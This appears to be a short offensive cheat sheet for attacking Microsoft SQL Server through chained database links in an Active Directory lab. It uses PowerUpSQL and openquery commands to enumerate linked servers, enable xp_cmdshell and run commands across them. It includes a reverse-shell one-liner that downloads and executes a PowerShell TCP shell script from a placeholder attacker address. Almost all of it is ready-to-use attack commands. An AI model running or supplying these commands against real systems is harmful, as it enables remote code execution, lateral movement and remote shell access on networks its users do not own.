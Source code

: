 **Pre-requisites**



**PowerUpSQL:**



```
. .\PowerUpSQL.ps1
```

Link: [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

Software: [HeidiSQL Client](https://github.com/HeidiSQL/HeidiSQL)

**1. Enumeration:**

```
# Discovery (SPN Scanning)
Get-SQLInstanceDomain
# Discovery (SPN Scanning) with Info and Verbose mode
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
# Check accessibility
Get-SQLConnectionTestThreaded
# Check accessibility
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

**2. Database Links:**

```
# Searching Database Links
Get-SQLServerLink -Instance dcorp-mssql -Verbose
# Enumerating Database Links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

```
# Searching Database Links
select * from master..sysservers
# Enumerating Database Links
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

**3. Command Execution:**

```
# Command: whoami
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft
# Reverse Shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql.corp.corporate.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://<address>/Invoke-PowerShellTcp.ps1'')"'
```

```
# Enable xp_cmdshell
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"
# Command: whoami
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt","select * from openquery("eu-sql.eu.corporate.local",""select@@version as version;exec master..xp_cmdshell "powershell whoami)"")")')
```
